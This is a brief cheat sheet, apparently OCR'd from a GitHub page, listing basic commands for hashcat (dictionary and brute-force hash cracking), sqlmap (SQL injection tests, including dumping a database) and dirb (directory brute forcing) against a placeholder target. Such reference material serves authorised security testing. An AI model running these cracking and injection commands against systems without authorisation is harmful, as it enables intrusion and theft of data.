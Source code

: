 ## hashcat

# Basic hash cracking

hashcat -m 0 hashes.txt wordlist.txt

# Brute force attack

hashcat -m 0 -a 3 hashes.txt ?l?l?l?l?l

# Show results

hashcat --show hashes.txt

### web application tools

## SQL map

# Basic SQL injection test

sqlmap -u "http://target.com/page.php?id=1"

# Test with cookies

sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=abc123"

# Dump database

sqlmap -u "http://target.com/page.php?id=1" --dump

## dirbuster

# Directory brute force

dirb http://target.com

# Use custom wordlist

dirb http://target.com /usr/share/wordlists/dirb/common.txt

# Specific extensions

dirb http://target.com -X .php,.html,.txt
